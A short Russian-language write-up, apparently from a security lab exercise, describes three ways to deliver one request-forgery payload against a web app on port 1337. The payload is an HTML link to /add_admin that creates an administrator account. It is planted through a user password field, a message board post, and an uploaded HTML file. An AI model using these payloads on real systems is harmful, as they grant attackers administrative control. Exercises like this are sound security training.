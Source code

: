## Атака 1
Аккаунт нового пользователя создается с таким паролем <a href="http://92.124.140.111:1337/add_admin?username=admin&password=789456&isAdmin=yes&submit=Add+User">test</a>  (<a href="http://92.124.140.111:1337/add_admin?username=admin&password=789456&isAdmin=yes&submit=Add+User">)

## Атака 2

В Message Board можно отправить такое сообщение <a href="http://92.124.140.111:1337/add_admin?username=admin&password=789456&isAdmin=yes&submit=Add+User">test</a>   (<a href="http://92.124.140.111:1337/add_admin?username=admin&password=789456&isAdmin=yes&submit=Add+User">)


## Атака 3

B Upload PoC File можно добавить test.html с таким содержанием <a href="http://92.124.140.111:1337/add_admin?username=admin&password=789456&isAdmin=yes&submit=Add+User">test</a> (<a href="http://92.124.140.111:1337/add_admin?username=admin&password=789456&isAdmin=yes&submit=Add+User">)
